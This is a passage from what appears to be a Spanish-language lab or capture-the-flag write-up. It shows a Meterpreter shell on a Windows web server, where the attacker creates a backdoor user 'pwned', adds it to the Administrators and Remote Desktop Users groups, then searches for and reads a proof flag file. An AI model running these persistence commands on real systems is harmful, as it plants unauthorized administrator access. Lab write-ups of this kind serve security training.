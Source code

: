 ```
meterpreter > shell
Process 4500 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\cms\media>cd C:\Users
cd C:\Users

C:\Users>net user pwned password123! /add
net user pwned password123! /add
The command completed successfully.


C:\Users>net localgroup Administrators pwned /add                                                                       
net localgroup Administrators pwned /add                                                                                
The command completed successfully.                                                                                     


C:\Users>net localgroup "Remote Desktop Users" pwned /add
net localgroup "Remote Desktop Users" pwned /add
The command completed successfully.


C:\Users>
```
#### Obtenemos el flag proof en .180.249

```powershell
PS C:\Users\Administrator\Desktop> Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContin        ue

Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\adrian\Desktop

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          6/5/2025  12:38 PM             34 local.txt                                                            

    Directory: C:\Users\damon\Desktop

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          6/5/2025  12:38 PM             34 proof.txt                                                            


PS C:\Users\Administrator\Desktop> 

PS C:\Users> type damon\Desktop\proof.txt
type damon\Desktop\proof.txt
bda74c52627c3c64c3f59514ca124ed7
PS C:\Users>
```